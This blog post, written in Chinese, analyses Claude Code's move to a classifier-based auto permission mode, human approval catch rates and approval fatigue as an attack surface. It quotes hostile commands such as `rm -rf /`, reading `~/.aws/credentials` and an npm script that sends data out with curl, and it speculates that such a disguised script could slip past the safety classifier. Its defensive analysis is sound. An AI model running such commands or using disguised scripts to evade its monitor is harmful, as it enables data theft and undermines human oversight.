





先说结论。

> 8 月 14 日 Claude Code 的默认模式变成 auto mode，并不是因为人工审查输给了机器。**而是因为审批提示从一开始就没有被做成“需要你做判断”的样子。** 13.6% 与其说是人类不够留神的指标，不如说是 UI 设计缺陷的指标，这样读才对。而换成 classifier 之后，组织真正得到的也不是“AI 的眼睛”，而是写 `permissions.deny` 的截止日期。

事实部分我会写得简短一些，毕竟这些数字别处也能读到。后半段的“我的看法”才是篇幅更长的部分。

---

## 发生了什么

Anthropic 在 2026 年 8 月 7 日宣布，**从 8 月 14 日起，Claude Code 的默认权限模式切换为 auto mode**。适用于 Pro / Max / Team 套餐。Enterprise、API、Bedrock、Vertex、Foundry 暂时仍需手动开启（opt-in），官方预告将在“未来一个月内”推出。

auto mode 并不是把权限系统拿掉，而是把做判断的主体从人换成了分类器。每一次工具调用，都会经过另一个分类器，它被训练用来检测不可逆、具有破坏性、或指向本地环境之外的操作。读写文件、运行测试、本地构建会直接放行。数据外泄、大批量删除、权限提升、向不受信任的目标 push，则会在执行前被拦下。

随时可以用 `Shift+Tab` 切回去。管理员可以在 managed settings 里固定 `defaultMode`，也可以用 `disableAutoMode` 把这个选项直接去掉。连续被拦截 3 次，或单次会话累计达到 20 次，就会退回手动审批。在无头模式（`claude -p`）下不会退回，进程直接退出。

分类器的内部构造，写在 Anthropic 3 月 25 日的工程博客里。它分两个阶段。

> A single-stage classifier faces a direct performance/cost trade-off. (...) We tuned stage 1 to push recall higher than stage 2 on our real overeagerness testset, accepting 8.5% FPR as the cost. Stage 2 sees the same prompt and only the final instruction changes, asking for careful reasoning. That reduces the 8.5% FPR down to 0.4%.
>
> （单阶段分类器面临性能与成本之间的直接取舍。〔……〕我们在真实的“过度积极”测试集上，把 stage 1 的召回率调得比 stage 2 更高，代价是接受 8.5% 的误报率。stage 2 看到的是同一个提示词，只是最后一条指令不同，要求仔细推理。这样误报率就从 8.5% 降到了 0.4%。）
>
> — [How we built Claude Code auto mode](https://www.anthropic.com/engineering/claude-code-auto-mode)（2026 年 3 月 25 日）

stage 1 是一个快速过滤器，只用单个 token 被指示“往拦截的方向倒”；stage 2 则是对同一输入加上推理的细查。因为两次输入几乎一样，所以 prompt cache 基本都能命中，这是它的设计。此外，输入层有一个提示词注入检测探针，而转录（transcript）分类器在结构上“看不到”工具的执行结果。污染了其中一个，另一个并没有看到被污染的内容，所以要同时突破两者很难，这是一种双层结构。向子智能体委派任务时，以及结果返回时，两端也都会做检查。

就设计而言，老实说我觉得做得很好。问题不在这里。

## 13.6% 和 89%

Anthropic 用来支撑默认设置变更的依据，是一项有 1,053 名有偿测试者参加的对照实验。

测试者在专用的测试环境里工作，用的不是自己的代码库。会话进行到一半，把某一次普通的审批提示，替换成一条明显危险的命令。只有文本，就算批准了实际上也什么都不会执行。记录的只有一件事：“有没有注意到并拒绝”。参与者知道自己正在被评估，但按照盲测设计，**并不知道被测量的是什么**。

| 指标 | 人类审查者 | auto mode |
| --- | --- | --- |
| 植入的危险命令的检出 | 13.6%（143 / 1,053） | 89%（937 / 1,053） |
| 对方拦下了、自己却放行的数量 | 800 | 6 |
| 会话早期的检出率 | 约 17% | 持平 |
| 第 50 条提示之后的检出率 | 约 5% | 持平 |

我觉得最有分量的是最后一行。会话越长，人就越不行。从 17% 掉到 5%，不到原来的三分之一。分类器不会掉。

实际使用中的遥测数据也一并公布了。Claude Code 用户批准了 **97%** 的权限提示（3 月工程博客那时是 93%，半年里涨了 4 个百分点）。截至 6 月，49.5% 的 CLI 活跃用户已经创建过 Bash 的 allow 规则。5% 的人允许任意 shell 命令，43% 的人允许 Python、Node 这类解释器，而后者实际上就等于“什么都能执行”。62% 的人试过 bypass permissions 或 Bash 的“不再询问”，四分之一的交互式会话一开始就处于绕过权限的状态。

此外，Anthropic 还对 2026 年 5 到 6 月间被安全流水线标记为需要审查的会话重新打了分（仅限同意将数据用于训练和分析的账号）。在严重程度达到生产级（10 分制中 7 分以上，比如删除生产数据库中的行）的事件里，手动审批会话中有 **6.3%** 含有用户并未明确要求的有害操作，而 auto mode 会话中是 **2.4%**。要注意，这是在已经被标记的会话内部做的比较，不是以全部会话为分母。

把数字摆出来，结论似乎就是“人工审查根本没起作用”。实际上，很多解读文章也是这么写的。我觉得这只说对了一半。理由后面再讲。

## 66.3% 与 13.6% 并不矛盾

差不多同一时期，独立开发者 Alex Wauters 用另一种方式测量了同一个问题。[llmgame.scalex.dev](https://llmgame.scalex.dev/) 是一个浏览器游戏，玩家要对 AI 编程智能体的 shell 命令选择批准或拒绝。累计收集了 40,000 多场会话、409,000 次判断。

这边的平均正确率是 **66.3%**，也就是“三个威胁里漏掉一个”。和 Anthropic 的 13.6% 不是一个量级。

这并不矛盾，是设计不同。游戏玩家处在约 34% 的命令都是威胁这种异常高密度的环境里，而且是在明知“这是测试”的前提下做判断。Anthropic 的测试者则是在 1,053 场会话里只会踩到一次植入的命令，而且毫无起疑的理由。

也就是说，这两个数字测量的是**有戒心时的人类（66.3%）和没有戒心时的人类（13.6%）**。而真实的开发者，是在后一种条件下工作的。66.3% 才是上限值。

Wauters 的数据里有意思的是明细。

| 威胁类别 | 例子 | 漏检率 |
| --- | --- | --- |
| 明显的破坏 | `rm -rf /`、`chmod -R 777 /` | 11.7% |
| 持久性篡改 | crontab 注入、git config 劫持 | 23.8% |
| 外泄、代码执行 | 对未知包执行 `curl` | 33.4% |
| 越界访问 | `cat ~/.aws/credentials`、`cat ~/.kube/config` | 35.0% |

数据集中最成功的攻击，并不是什么看着吓人的单行命令，而是 `npm run analyze`。**64.7% 的人批准了它**。尽管游戏里智能体的历史日志已经显示，那个 `package.json` 脚本会把构建统计数据用 `curl -s -X POST https://api.bundle.track/report` 发出去。

`npm run setup` 有 48.0% 的人漏过，`npm run deploy` 是 44.9%。把这三个合并起来，漏检率为 52.5%（n=9,482）。其他没有靠名字伪装的外泄类攻击是 28.4%。**只要把脚本名取成开发者本来就信任的名字，攻击成功率就能翻约一倍。**

反方向也测了，也就是对安全命令的过度拦截。把 npm 指向内部镜像的 `npm config set registry https://npm.internal`，有 59% 的人拦了。清理构建产物的 `rm -rf dist/` 是 45%。为崩掉的开发服务器腾出端口的 `kill $(lsof -t -i:3000)` 是 43%。检出了全部威胁的玩家占 35.2%，但在把过度拦截控制在五分之一以下的同时做到这一点的，只有 20.8%。其余的人是靠“几乎全部拒绝”拿到的满分。对想让智能体干活的人来说，这种策略没法用。

32.9% 的会话最终得分为负。7% 的人全部批准。

---

以上是事实。下面是我的看法。

## 我的看法 1：真正的数字不是 13.6%，而是“39% 和 3%”

Anthropic 的遥测数据里，有一组几乎没人引用的数字。

**用户会否决 Claude 提出的计划的 39%。而单个权限请求，只否决 3%。**

同一批人，在同一个会话里，对其中一边说“不”的频率是另一边的 13 倍。

看到这一组数字的瞬间，13.6% 的读法就变了。不是人的判断能力下降了。**只要是以能做判断的形式呈现出来的东西，人是会好好判断的。** 计划里有上下文：要做什么、为什么这么做，都写着。所以能否决 39%。

权限提示没有这些。当它问“可以执行 `npm run analyze` 吗”的时候，屏幕上只有命令字符串。`package.json` 里写了什么看不到，打算用它来干什么也看不到。判断所需的信息在结构上就是缺失的，却被要求回答“是/否”。

Blake Crosley 把它拆成了四种失败。

> Approval prompts fail when they compress a high-context decision into a low-context click.
>
> （审批提示的失败，在于把一个高上下文的决策压缩成了一次低上下文的点击。）
>
> — [AI Agent Approval Prompts Are Not Authorization](https://blakecrosley.com/blog/ai-agent-approval-prompts-not-authorization)

范围的丧失（看得到工具名，看不到资源、租户和影响范围）、依据的丧失（看得到请求的操作，看不到它合理的证据）、疲劳，以及说服（智能体自己用流畅的话把风险包起来）。

Wauters 游戏里的 `npm run analyze`，是这四种里单靠“依据的丧失”造成的漏洞。玩家没有看自己即将批准的脚本里写了什么。想看的话，历史日志里本来就有，但命令名抢先一步结束了判断。

所以把 13.6% 读成“人类不行”，我觉得太草率了。准确地说是，**被放在那个 UI 里的人类不行。** 同样的人在审查计划时能否决 39%。被测量的不是人，而是屏幕。

## 我的看法 2：classifier 不是授权（authorization），只是换了个审查者

把 13.6% 提到 89%，是进步，这一点我承认。实测中，生产级严重程度的有害操作混入率从 6.3% 降到了 2.4%。实际的损害减少了。

但是，89% 也好，13.6% 也好，都是**同一个岗位的成绩**。这个岗位就是“看着给出的操作，当场决定放行还是拦下的人”。只是换成了一个更擅长的审查者，并没有因此获得授权（authorization）。

授权是事先声明边界。“这个进程不碰生产数据库”“这台机器出不了外部网络”“这个 token 只有 read 权限”。不管谁来做什么判断，都出不了这个边界，具备这种形态的才是管控。它和判断的高下不在同一条轴上。

而在 Claude Code 里，相当于授权的东西只有一个：managed settings 里的 `permissions.deny`。它在咨询分类器之前就拦截，用户设置也无法覆盖。

相比之下，auto mode 的 `soft_deny` 不一样。Anthropic 自己在文档里是这么写的。

> a developer-added `allow` entry can override an organization `soft_deny` entry: the combination is additive, **not a hard policy boundary**.
>
> （开发者添加的 `allow` 条目可以覆盖组织的 `soft_deny` 条目：两者的组合是叠加式的，**不是硬性的策略边界**。）

即使平台团队在 managed settings 的 `autoMode.soft_deny` 里写上“迁移只能通过专用 CLI 执行”，只要有一位工程师在自己的主目录里写一行对应的 `allow`，这条限制就消失了。文档自己就举了这个例子。

想到这一点，我觉得这次默认设置变更让组织真正得到的并不是分类器。而是得到了一个**带着 8 月 14 日这个截止日期、可以对全公司说“把 CLAUDE.md 里用日语写的禁止事项翻译成 `permissions.deny`”的理由**。这才是本体。分类器我是当作“顺带做得很好”的附赠品来看的。

“别碰生产”“别 force push”“别改写 migrations 目录”。这三行现在写在哪里？写在 Markdown 里就不是管控，写在 JSON 里才是。我觉得这次变更真正拷问的就是这一点。

## 我的看法 3：这和换成 linter 是两回事

我以前写过一篇，大意是“安全的写法靠审查是守不住的”。讲的是 GitHub Actions 注入：Copilot 和 GHAS 都放过去了，`zizmor` 一条命令就找出来了。当时的主张是“用确定性的检查器取代人工审查”。

这次看着相似，内容却不同。替换上去的东西是**概率性**的。

确定性的 linter，同样的输入会返回同样的答案。所以事后可以说“这条规则当时是通过的”。可审计、可复现，按 SOC 2 或 ISO 27001 的意义，可以算作“管控”。

分类器不是这样。stage 1 的误报率 8.5%，stage 2 是 0.4%。植入的命令有 11% 漏掉了。同一条命令会得到同样的判定，这一点哪里都没有保证。它是个优秀的审查者，但不是管控。

这个区别不是文字游戏，事故之后才见分晓。如果是确定性的 deny 规则，“为什么放行了”的答案只有一个：要么没有规则，要么规则写错了。换成分类器，就只能落到“当时是那样判定的”，根因分析闭不了环。

所以我把 auto mode 登记为“摩擦的消除”，而不是“安全性的改进”。安全性的提升作为副作用是真的（6.3% 到 2.4% 是真实的数字），但填不进管控那一栏。能填进管控那一栏的，只有 deny 规则的行数。

## 我的看法 4：分类器可能也在看“看起来有多危险”（这一点我没有确认）

Wauters 数据里的不对称，告诉了我们人类在检测什么。`rm -rf /` 能拦下 88.3%，`cat ~/.aws/credentials` 只能拦下 65%。人类检测的不是危险性，而是**看起来危险的样子**。`cat ~/.aws/credentials` 在语法上和 `cat README.md` 完全是同一个形状。

这里让我在意的是，分类器会不会有同样的偏差。

`npm run analyze` 在分类器眼里是什么样子？Anthropic 的设计是转录分类器，看的是智能体的行为历史。那么，这段历史里有没有包含 `package.json` 的 `scripts.analyze` 的内容，判定应该会不同。如果智能体刚刚读过 `package.json`，内容就会出现在转录里；如果没读过，分类器看到的就只有 `npm run analyze` 这个字符串。看起来结构上会因为同样的理由，踩进人类踩过的同一个陷阱。

这一点我没有确认。Anthropic 的工程博客里写了转录分类器被设计成“看不到”工具结果，但没有写 `package.json` 这类已经读取过的文件内容，究竟有多少会进入分类器的输入。我也没有在手头试过 `npm run` 这类伪装来验证。所以不下断言。只是，**如果分类器继承了和人类一样的“凭名字判断”的偏差，那么 89% 这个数字，并没有告诉你攻击者最先瞄准的漏洞在哪里。** techi 指出 89% 是在 Anthropic 自己选定的命令集上测出来的，这一点在这里就起作用了。

想验证的人，我觉得方法很简单：在一个名字人畜无害的 npm script 里埋入对外通信，然后在 auto mode 下运行就行。我没做。

## 我的看法 5：审批提示提供的不是安全，而是责任归属

这是我最想说的地方。

为什么审批提示即便有 97% 的批准率，也没有被撤掉？它没有起作用这件事，Anthropic 自己在 3 月就写了“93% 被批准”，等于承认了。可它还是留了半年。

我的解读是，因为它与其说是安全装置，不如说是**责任转移装置**在起作用。出了事故的时候，留有一条可以说“用户批准了”的记录。用户这边也能说“我看过了才放行的”。即便实际上什么都没看，作为流程也成立。和 cookie 弹窗是同样的结构。CHI 2020 的一项研究发现，满足法律上知情同意（informed consent）要求的弹窗只有 11.8%。可它们还是装在所有网站上。因为目的不是取得同意，而是留下取得过同意的记录。

auto mode 把这个装置拿掉了。而责任并没有转移。Anthropic 明确写了“does not eliminate risk（并不能消除风险）”，并且对重要的生产变更仍然建议手动审查。也就是说，出事故的时候，责任仍然在用户身上。

**只有判断的机会没了，责任原封不动留了下来。**

我觉得这次变更里唯一直截了当变糟的就是这里。其他都在取舍的范围内，只有这一点是单向的。从“没看，但是是我按的”，变成了“压根没让我看，但责任在我”。

正因为如此，才回到了要写 deny 规则这件事上。判断的机会如果不会回来，判断就只能前移。不要再在会话中一件件地决定，而是在会话开始之前就把边界声明好。这是让责任和权限的位置对齐的唯一办法。

顺带一提，攻击者这一侧已经朝这个方向来了。2026 年 3 月，面向智能体的威胁检测规则集里新增了一个叫“Human Approval Fatigue Exploitation”（利用人类审批疲劳）的条目。让智能体海量生成审批请求，把危险操作包装成日常的说法，把仅仅一条混进一批无害操作里。在 OWASP 的 Agentic Top 10 里，对应 ASI09“Human-Agent Trust Exploitation”（人机信任利用）。检测逻辑看的是话术，“just click approve for all”“nothing to worry about, batch execute these”这类短语本身就会被当作对抗信号。审批疲劳，已经不再是副作用，而是被命名为攻击面了。

## 那么，明天做什么

只做三件事。

确认 managed settings 放在哪里、怎么分发（macOS 是 `/Library/Application Support/ClaudeCode/`，Linux/WSL 是 `/etc/claude-code/`，Windows 是 `C:\Program Files\ClaudeCode\`）。如果答不上“策略变更怎么送到 300 台笔记本上”，那你拥有的就不是管控，只是一个 Wiki 页面。

把散落在 `CLAUDE.md` 里的禁止事项里排名前五的，翻译成 `permissions.deny`。不是 `soft_deny`，是 `deny`，是不会被 `allow` 覆盖的那一边。

给 `git push` 和 `gh pr create` 配上 `permissions.ask`。保留 auto mode，只把对外的操作还给人。想想“计划会被否决 39%，而单个审批只被否决 3%”这件事：如果要问人，“只在要出去的那一刻问”比“一件一件地问”更管用。

只带走一件事的话，就是 `soft_deny` 和 `deny` 的区别。一个会被一位工程师的配置文件抹掉，另一个不会。

---

## 出处

- Anthropic, [How we built Claude Code auto mode: a safer way to skip permissions](https://www.anthropic.com/engineering/claude-code-auto-mode)（2026 年 3 月 25 日）：两阶段分类器的设计、93% 批准率、误报率 8.5% 降到 0.4%
- Anthropic, [Auto mode is now the default in Claude Code for Pro, Max, and Team plans](https://claude.com/blog/auto-mode-default-in-claude-code)（2026 年 8 月 7 日，作者 Conner Phillippi 等）：1,053 名测试者的实验、13.6% / 89%、97% 批准率、计划 39% 对权限 3%、6.3% 对 2.4%
- Anthropic, [Configure permissions](https://code.claude.com/docs/en/permissions)：`deny` / `ask` / `allow` 的优先级、managed settings
- Saba Javed, [Claude Code will default to auto mode despite an 11% test miss rate](https://www.techi.com/claude-code-auto-mode-default-11-percent-miss-rate/), TECHi（2026 年 8 月）：对实验分母的批评、遥测数据（49.5% / 62% / 计划 39% 对权限 3%）
- [Claude Code Stops Asking Aug 14. Prompts Aren't Policy.](https://www.beri.net/article/claude-code-auto-mode-default-august-14-deny-rules-not-prompts), THE D\*AI\*LY BRIEF（2026 年 8 月）：`soft_deny` 不是硬性策略边界、managed settings 的存放位置
- explainx.ai, [Claude Auto Mode: 89% vs 13.6% Human Catch Rate](https://www.explainx.ai/blog/claude-code-auto-mode-default-pro-max-team-august-2026)（2026 年 8 月）：推出范围、回退条件
- Alex Wauters, [llmgame.scalex.dev](https://llmgame.scalex.dev/) 与 [scalex.dev](https://scalex.dev/) 的分析 / explainx.ai, [AI Agent Approval Game: Humans Missed 1 in 3 Threats](https://explainx.ai/blog/alex-wauters-ai-agent-approval-game-40000-plays-data-august-2026)（2026 年 8 月 6 日）：409,000 次判断、各类别漏检率、`npm run analyze`
- Blake Crosley, [AI Agent Approval Prompts Are Not Authorization](https://blakecrosley.com/blog/ai-agent-approval-prompts-not-authorization)：审批提示失败的四种类型
- Maria Paktiti, [Approval fatigue is agent governance's next attack surface](https://workos.com/blog/approval-fatigue-agent-governance), WorkOS（2026 年 8 月 5 日）：Human Approval Fatigue Exploitation、CHI 2020 cookie 弹窗研究

## 没能确认的事

Anthropic 8 月 7 日的公告正文、3 月的工程博客、权限文档，我都读过原文。正文中的数字，全部已和 8 月 7 日公告正文核对过。

Wauters 的游戏数据，我读的不是他本人的原文，而是经由 explainx.ai 的解读。各类别的漏检率和 `npm run analyze` 的 64.7%，是 explainx.ai 引用的数字，我没有查到第一手的分析页面。

`npm run` 伪装能不能骗过 auto mode 的分类器，我没有在手头验证。看法 4 是作为推测写的。
